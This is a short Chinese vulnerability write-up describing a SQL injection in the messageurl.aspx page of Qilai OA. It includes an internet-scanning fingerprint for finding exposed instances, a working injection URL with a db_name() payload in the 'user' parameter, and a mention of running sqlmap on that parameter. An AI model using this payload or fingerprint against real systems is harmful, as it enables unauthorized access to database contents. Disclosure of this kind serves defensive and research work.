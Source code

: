 # 启莱OA messageurl.aspx SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

![qilai-2-1](images/qilai-2-1.png)

存在SQL注入的文件为 messageurl.aspx

```plain
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-2-2](images/qilai-2-2.png)

使用SQLmap对参数 user 进行注入

![qilai-2-3](images/qilai-2-3.png)